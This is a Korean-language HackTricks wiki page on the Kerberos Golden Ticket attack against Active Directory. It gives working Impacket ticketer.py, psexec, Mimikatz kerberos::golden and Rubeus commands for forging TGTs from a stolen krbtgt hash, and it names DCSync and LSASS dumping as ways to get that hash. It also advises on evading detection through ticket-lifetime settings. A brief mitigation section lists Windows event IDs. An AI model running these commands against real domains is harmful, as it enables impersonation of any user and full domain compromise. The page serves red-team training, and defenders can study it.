 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

**Golden Ticket** 공격은 **Active Directory (AD) krbtgt 계정의 NTLM 해시를 사용하여 임의의 사용자를 가장한 합법적인 티켓 부여 티켓(TGT)을 생성하는 것**으로 구성됩니다. 이 기술은 **가장한 사용자로서 도메인 내의 모든 서비스나 머신에 접근할 수 있게 해주기 때문에** 특히 유리합니다. **krbtgt 계정의 자격 증명은 자동으로 업데이트되지 않는다는 점을 기억하는 것이 중요합니다.**

krbtgt 계정의 **NTLM 해시를 획득하기 위해** 여러 가지 방법을 사용할 수 있습니다. 이는 도메인 내의 모든 도메인 컨트롤러(DC)에 위치한 **로컬 보안 권한 부여 하위 시스템 서비스(LSASS) 프로세스** 또는 **NT 디렉터리 서비스(NTDS.dit) 파일**에서 추출할 수 있습니다. 또한, **DCsync 공격을 실행하는 것**도 이 NTLM 해시를 얻기 위한 또 다른 전략으로, Mimikatz의 **lsadump::dcsync 모듈**이나 Impacket의 **secretsdump.py 스크립트**와 같은 도구를 사용하여 수행할 수 있습니다. 이러한 작업을 수행하기 위해서는 **도메인 관리자 권한 또는 유사한 수준의 접근 권한이 일반적으로 필요하다는 점을 강조하는 것이 중요합니다.**

NTLM 해시는 이 목적을 위한 유효한 방법으로 사용되지만, 운영 보안상의 이유로 **고급 암호화 표준(AES) Kerberos 키(AES128 및 AES256)를 사용하여 티켓을 위조하는 것이 강력히 권장됩니다.**


{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows에서" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**한 번** **golden Ticket**이 주입되면, 공유 파일 **(C$)**에 접근할 수 있으며, 서비스와 WMI를 실행할 수 있습니다. 따라서 **psexec** 또는 **wmiexec**를 사용하여 셸을 얻을 수 있습니다 (winrm을 통해 셸을 얻을 수 없는 것 같습니다).

### 일반적인 탐지 우회

**golden ticket**을 탐지하는 가장 일반적인 방법은 **네트워크에서 Kerberos 트래픽을 검사하는 것**입니다. 기본적으로, Mimikatz는 TGT를 **10년 동안 서명**하므로, 이후 TGS 요청에서 비정상적으로 보일 것입니다.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

`/startoffset`, `/endin` 및 `/renewmax` 매개변수를 사용하여 시작 오프셋, 기간 및 최대 갱신(모두 분 단위)을 제어합니다.
```
Get-DomainPolicy | select -expand KerberosPolicy
```
불행히도, TGT의 수명은 4769에 기록되지 않으므로 Windows 이벤트 로그에서 이 정보를 찾을 수 없습니다. 그러나 **이전 4768 없이 4769를 보는 것**은 상관관계가 있습니다. **TGT 없이 TGS를 요청하는 것은 불가능**하며, TGT가 발급된 기록이 없다면 오프라인에서 위조되었음을 추론할 수 있습니다.

**이 탐지를 우회하기 위해** 다이아몬드 티켓을 확인하십시오:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### 완화

* 4624: 계정 로그인
* 4672: 관리자 로그인
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

수비자가 할 수 있는 다른 작은 트릭은 **민감한 사용자에 대한 4769에 경고하는 것**입니다. 예를 들어 기본 도메인 관리자 계정과 같은 경우입니다.

## 참고 문헌
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

